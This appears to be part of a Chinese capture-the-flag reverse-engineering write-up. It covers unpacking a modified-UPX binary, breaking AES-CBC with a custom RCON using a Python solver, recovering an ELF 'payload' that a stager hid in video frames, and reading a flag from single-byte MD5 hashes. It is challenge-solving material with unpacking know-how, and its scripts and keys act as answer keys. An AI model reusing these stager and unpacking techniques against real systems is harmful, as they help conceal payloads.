

魔改UPX，改section脱不了，x64dbg + scylla动调脱壳：



main里面有个比较：



还有b64解码：



- 法一：厨子解码一下得到一个exe
- 法二：直接去 C:\Users\xxx\AppData\Local\Temp 拿到解码出来的exe，看到对两 section 自解密，开始动调到校验函数，明显 aes-PKCS#7，看前面有XOR就是CBC模式：



PKCS#7：



aes128_encrypt_block：

```c
add_round_key(state, round_keys);


for (int round = 1; round < AES_ROUND_COUNT; ++round) {
    sub_bytes(state);
    shift_rows(state);
    mix_columns(state);
    add_round_key(state, round_keys + 4 * round);
}


sub_bytes(state);
shift_rows(state);
add_round_key(state, round_keys + 4 * AES_ROUND_COUNT);
```













aes-keyExpasion改了RCON：



```cpp
static void key_expansion(const uint8_t key[AES_BLOCK_BYTES], uint32_t round_keys[AES_ROUND_KEY_WORDS]) {
    for (int i = 0; i < 4; ++i) {
        round_keys[i] = ((uint32_t)key[4 * i] << 24) |
                        ((uint32_t)key[4 * i + 1] << 16) |
                        ((uint32_t)key[4 * i + 2] << 8) |
                        (uint32_t)key[4 * i + 3];
    }

    for (int i = 4; i < AES_ROUND_KEY_WORDS; ++i) {
        uint32_t temp = round_keys[i - 1];
        if (i % 4 == 0) {
            temp = sub_word(rot_word(temp)) ^ rcon[(i / 4) - 1];
        }
        round_keys[i] = round_keys[i - 4] ^ temp;
    }
}
```

exp：

```python
SBOX = [
    0x63,0x7c,0x77,0x7b,0xf2,0x6b,0x6f,0xc5,0x30,0x01,0x67,0x2b,0xfe,0xd7,0xab,0x76,
    0xca,0x82,0xc9,0x7d,0xfa,0x59,0x47,0xf0,0xad,0xd4,0xa2,0xaf,0x9c,0xa4,0x72,0xc0,
    0xb7,0xfd,0x93,0x26,0x36,0x3f,0xf7,0xcc,0x34,0xa5,0xe5,0xf1,0x71,0xd8,0x31,0x15,
    0x04,0xc7,0x23,0xc3,0x18,0x96,0x05,0x9a,0x07,0x12,0x80,0xe2,0xeb,0x27,0xb2,0x75,
    0x09,0x83,0x2c,0x1a,0x1b,0x6e,0x5a,0xa0,0x52,0x3b,0xd6,0xb3,0x29,0xe3,0x2f,0x84,
    0x53,0xd1,0x00,0xed,0x20,0xfc,0xb1,0x5b,0x6a,0xcb,0xbe,0x39,0x4a,0x4c,0x58,0xcf,
    0xd0,0xef,0xaa,0xfb,0x43,0x4d,0x33,0x85,0x45,0xf9,0x02,0x7f,0x50,0x3c,0x9f,0xa8,
    0x51,0xa3,0x40,0x8f,0x92,0x9d,0x38,0xf5,0xbc,0xb6,0xda,0x21,0x10,0xff,0xf3,0xd2,
    0xcd,0x0c,0x13,0xec,0x5f,0x97,0x44,0x17,0xc4,0xa7,0x7e,0x3d,0x64,0x5d,0x19,0x73,
    0x60,0x81,0x4f,0xdc,0x22,0x2a,0x90,0x88,0x46,0xee,0xb8,0x14,0xde,0x5e,0x0b,0xdb,
    0xe0,0x32,0x3a,0x0a,0x49,0x06,0x24,0x5c,0xc2,0xd3,0xac,0x62,0x91,0x95,0xe4,0x79,
    0xe7,0xc8,0x37,0x6d,0x8d,0xd5,0x4e,0xa9,0x6c,0x56,0xf4,0xea,0x65,0x7a,0xae,0x08,
    0xba,0x78,0x25,0x2e,0x1c,0xa6,0xb4,0xc6,0xe8,0xdd,0x74,0x1f,0x4b,0xbd,0x8b,0x8a,
    0x70,0x3e,0xb5,0x66,0x48,0x03,0xf6,0x0e,0x61,0x35,0x57,0xb9,0x86,0xc1,0x1d,0x9e,
    0xe1,0xf8,0x98,0x11,0x69,0xd9,0x8e,0x94,0x9b,0x1e,0x87,0xe9,0xce,0x55,0x28,0xdf,
    0x8c,0xa1,0x89,0x0d,0xbf,0xe6,0x42,0x68,0x41,0x99,0x2d,0x0f,0xb0,0x54,0xbb,0x16,
]

INV_SBOX = [0] * 256
for i, v in enumerate(SBOX):
    INV_SBOX[v] = i

RCON = [0x9c, 0x10, 0x13, 0x15, 0x19, 0x01, 0x31]

NB = 4   # block words
NK = 8   # AES-256 key words
NR = 14  # AES-256 rounds

def xtime(a: int) -> int:
    return ((a << 1) ^ 0x1b) & 0xff if (a & 0x80) else ((a << 1) & 0xff)

def gf_mul(a: int, b: int) -> int:
    res = 0
    for _ in range(8):
        if b & 1:
            res ^= a
        hi = a & 0x80
        a = (a << 1) & 0xff
        if hi:
            a ^= 0x1b
        b >>= 1
    return res

def sub_word(word):
    return [SBOX[b] for b in word]

def rot_word(word):
    return word[1:] + word[:1]

def xor_words(a, b):
    return [x ^ y for x, y in zip(a, b)]

def bytes_to_state(block: bytes):
    state = [[0] * 4 for _ in range(4)]
    for i in range(16):
        state[i % 4][i // 4] = block[i]
    return state

def state_to_bytes(state):
    out = bytearray(16)
    for i in range(16):
        out[i] = state[i % 4][i // 4]
    return bytes(out)

def add_round_key(state, round_key):
    for c in range(4):
        for r in range(4):
            state[r][c] ^= round_key[4 * c + r]

def inv_sub_bytes(state):
    for r in range(4):
        for c in range(4):
            state[r][c] = INV_SBOX[state[r][c]]

def inv_shift_rows(state):
    state[1] = state[1][-1:] + state[1][:-1]
    state[2] = state[2][-2:] + state[2][:-2]
    state[3] = state[3][-3:] + state[3][:-3]

def inv_mix_columns(state):
    for c in range(4):
        s0 = state[0][c]
        s1 = state[1][c]
        s2 = state[2][c]
        s3 = state[3][c]

        state[0][c] = gf_mul(s0, 0x0e) ^ gf_mul(s1, 0x0b) ^ gf_mul(s2, 0x0d) ^ gf_mul(s3, 0x09)
        state[1][c] = gf_mul(s0, 0x09) ^ gf_mul(s1, 0x0e) ^ gf_mul(s2, 0x0b) ^ gf_mul(s3, 0x0d)
        state[2][c] = gf_mul(s0, 0x0d) ^ gf_mul(s1, 0x09) ^ gf_mul(s2, 0x0e) ^ gf_mul(s3, 0x0b)
        state[3][c] = gf_mul(s0, 0x0b) ^ gf_mul(s1, 0x0d) ^ gf_mul(s2, 0x09) ^ gf_mul(s3, 0x0e)

def expand_key_256_custom_rcon(key: bytes) -> bytes:
    if len(key) != 32:
        raise ValueError("AES-256 key must be exactly 32 bytes")

    w = []
    for i in range(NK):
        w.append([key[4*i], key[4*i+1], key[4*i+2], key[4*i+3]])

    total_words = NB * (NR + 1)  # 60
    rcon_index = 0

    for i in range(NK, total_words):
        temp = w[i - 1][:]

        if i % NK == 0:
            temp = xor_words(sub_word(rot_word(temp)), [RCON[rcon_index], 0x00, 0x00, 0x00])
            rcon_index += 1
        elif i % NK == 4:
            temp = sub_word(temp)

        w.append(xor_words(w[i - NK], temp))

    expanded = bytearray()
    for word in w:
        expanded.extend(word)
    return bytes(expanded)

def get_round_key(expanded_key: bytes, round_index: int) -> bytes:
    start = round_index * 16
    return expanded_key[start:start + 16]

def aes256_decrypt_block(block: bytes, expanded_key: bytes) -> bytes:
    if len(block) != 16:
        raise ValueError("block must be 16 bytes")

    state = bytes_to_state(block)

    add_round_key(state, get_round_key(expanded_key, NR))

    for rnd in range(NR - 1, 0, -1):
        inv_shift_rows(state)
        inv_sub_bytes(state)
        add_round_key(state, get_round_key(expanded_key, rnd))
        inv_mix_columns(state)

    inv_shift_rows(state)
    inv_sub_bytes(state)
    add_round_key(state, get_round_key(expanded_key, 0))

    return state_to_bytes(state)

def xor_bytes(a: bytes, b: bytes) -> bytes:
    return bytes(x ^ y for x, y in zip(a, b))

def pkcs7_unpad(data: bytes) -> bytes:
    if not data:
        raise ValueError("empty data")
    pad = data[-1]
    if pad < 1 or pad > 16:
        raise ValueError("invalid PKCS#7 padding")
    if data[-pad:] != bytes([pad]) * pad:
        raise ValueError("invalid PKCS#7 padding")
    return data[:-pad]

def aes256_cbc_decrypt(ciphertext: bytes, key: bytes, iv: bytes, unpad: bool = False) -> bytes:
    if len(key) != 32:
        raise ValueError("key must be 32 bytes for AES-256")
    if len(iv) != 16:
        raise ValueError("iv must be 16 bytes")
    if len(ciphertext) % 16 != 0:
        raise ValueError("ciphertext length must be multiple of 16")

    expanded_key = expand_key_256_custom_rcon(key)

    plaintext = bytearray()
    prev = iv

    for i in range(0, len(ciphertext), 16):
        block = ciphertext[i:i+16]
        dec = aes256_decrypt_block(block, expanded_key)
        plain_block = xor_bytes(dec, prev)
        plaintext.extend(plain_block)
        prev = block

    result = bytes(plaintext)
    return pkcs7_unpad(result) if unpad else result

def to_hex(data: bytes) -> str:
    return data.hex()

def main():
    cipher = bytes([
        0x9b, 0x5e, 0x1e, 0x8f, 0xd7, 0xc3, 0x43, 0x62,
        0xa2, 0x37, 0x86, 0xc0, 0xce, 0x3d, 0x3c, 0xf4,
        0xc3, 0xb6, 0x88, 0xff, 0x3c, 0x9c, 0x13, 0xd2,
        0xbb, 0x6f, 0x49, 0xce, 0xff, 0x59, 0xa2, 0x5c,
        0x36, 0xe4, 0x61, 0x9e, 0x60, 0x61, 0xc3, 0xbb,
        0x3f, 0x63, 0xaf, 0x00, 0x3b, 0x3d, 0x8d, 0xa7
    ])

    key = bytes.fromhex("c23012ab39101833f8ed4e468da15d8d8cfbf0726899dc7c846e7ecf32bbdaf8")
    iv  = bytes.fromhex("aeba0dbbca267f9906ed7c70e38d8b11")

    plaintext = aes256_cbc_decrypt(cipher, key, iv, unpad=False)

    print("Ciphertext hex :", cipher.hex())
    print("Plaintext hex  :", plaintext.hex())

    print("Plaintext", plaintext)

if __name__ == "__main__":
    main()
```



## 6.re1

loader使用b64解码一个pyc并运行：



解码stager_pyc_base64并提出pyc，pyc用pylingual反编译：

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'Payload_To_PixelCode_video.py'
# Bytecode version: 3.7.0 (3394)
# Source timestamp: 2026-01-04 04:02:18 UTC (1767499338)

from PIL import Image
import math
import os
import sys
import numpy as np
import imageio
from tqdm import tqdm
def file_to_video(input_file, width=640, height=480, pixel_size=8, fps=10, output_file='video.mp4'):
    if not os.path.isfile(input_file):
        return None
    file_size = os.path.getsize(input_file)
    binary_string = ''
    with open(input_file, 'rb') as f:
        for chunk in tqdm(iterable=iter(lambda: f.read(1024), b''), total=math.ceil(file_size / 1024), unit='KB', desc='读取文件'):
            binary_string += ''.join((f'{byte:08b}' for byte in chunk))
    xor_key = '10101010'
    xor_binary_string = ''
    for i in range(0, len(binary_string), 8):
        chunk = binary_string[i:i + 8]
        if len(chunk) == 8:
            chunk_int = int(chunk, 2)
            key_int = int(xor_key, 2)
            xor_result = chunk_int ^ key_int
            xor_binary_string += f'{xor_result:08b}'
        else:
            xor_binary_string += chunk
    binary_string = xor_binary_string
    pixels_per_image = width // pixel_size * (height // pixel_size)
    num_images = math.ceil(len(binary_string) / pixels_per_image)
    frames = []
    for i in tqdm(range(num_images), desc='生成视频帧'):
        start = i * pixels_per_image
        bits = binary_string[start:start + pixels_per_image]
        if len(bits) < pixels_per_image:
            bits = bits + '0' * (pixels_per_image - len(bits))
        img = Image.new('RGB', (width, height), color='white')
        for r in range(height // pixel_size):
            row_start = r * (width // pixel_size)
            row_end = (r + 1) * (width // pixel_size)
            row = bits[row_start:row_end]
            for c, bit in enumerate(row):
                color = (0, 0, 0) if bit == '1' else (255, 255, 255)
                x1, y1 = (c * pixel_size, r * pixel_size)
                img.paste(color, (x1, y1, x1 + pixel_size, y1 + pixel_size))
        frames.append(np.array(img))
    with imageio.get_writer(output_file, fps=fps, codec='libx264') as writer:
        for frame in tqdm(frames, desc='写入视频帧'):
            writer.append_data(frame)
if __name__ == '__main__':
    input_path = 'payload'
    if os.path.exists(input_path):
        file_to_video(input_path)
    else:
        sys.exit(1)
```

XOR 0xaa之后的 payload_file 的二进制 -> 按照 8 * 8 一块像素生成一堆图片，1黑像素，0白像素，一张图片像素个数为 80 * 60 个，使用opencv解出来是个ELF：

```python
#!/usr/bin/env python3
"""Reverse stager.py: extract payload from video.mp4"""

import cv2
import numpy as np
import sys

PIXEL_SIZE = 8
XOR_KEY = 0xAA

def extract_payload(video_path, output_path="payload"):
    cap = cv2.VideoCapture(video_path)
    if not cap.isOpened():
        print(f"Cannot open {video_path}", file=sys.stderr)
        sys.exit(1)

    width = int(cap.get(cv2.CAP_PROP_FRAME_WIDTH))
    height = int(cap.get(cv2.CAP_PROP_FRAME_HEIGHT))
    total = int(cap.get(cv2.CAP_PROP_FRAME_COUNT))
    print(f"{width}x{height}, {total} frames")

    bits = []
    idx = 0
    while True:
        ret, frame = cap.read()
        if not ret:
            break
        gray = cv2.cvtColor(frame, cv2.COLOR_BGR2GRAY)
        for r in range(0, height, PIXEL_SIZE):
            for c in range(0, width, PIXEL_SIZE):
                block = gray[r:r + PIXEL_SIZE, c:c + PIXEL_SIZE]
                bits.append("1" if np.mean(block) < 128 else "0")
        idx += 1
        print(f"\r[{idx}/{total}]", end="", flush=True)
    cap.release()
    print()

    out = bytearray()
    for i in range(0, len(bits) - 7, 8):
        out.append(int("".join(bits[i:i + 8]), 2) ^ XOR_KEY)

    with open(output_path, "wb") as f:
        f.write(out)
    print(f"Wrote {len(out)} bytes -> {output_path}")

if __name__ == "__main__":
    extract_payload("video.mp4")
```







exp：

```python
import hashlib

md5_map = {hashlib.md5(bytes([i])).hexdigest(): chr(i) for i in range(256)}

hashes = [
    "8277e0910d750195b448797616e091ad",
    "0cc175b9c0f1b6a831c399e269772661",
    "4b43b0aee35624cd95b910189b3dc231",
    "e358efa489f58062f10dd7316b65649e",
    "f95b70fdc3088560732a5ac135644506",
    "c81e728d9d4c2f636f067f89cc14862c",
    "92eb5ffee6ae2fec3ad71c777531578f",
    "c4ca4238a0b923820dcc509a6f75849b",
    "8fa14cdd754f91cc6554c9e71929cce7",
    "c9f0f895fb98ab9159f51fd0297e236d",
    "336d5ebc5436534e61d16e63ddfca327",
    "eccbc87e4b5ce2fe28308fd9f2a7baf3",
    "cfcd208495d565ef66e7dff9f98764da",
    "a87ff679a2f3e71d9181a67b7542122c",
    "e4da3b7fbbce2345d7772b0674a318d5",
    "e1671797c52e15f763380b45e841ec32",
    "8f14e45fceea167a5a36dedd4bea2543",
    "1679091c5a880faf6fb5e6087eb1b2dc",
    "4a8a08f09d37b73795649038408b5f33",
    "cbb184dd8e05c9709e5dcaedaa0495cf",
]

flag = "".join(md5_map[h] for h in hashes)
print(flag)
```


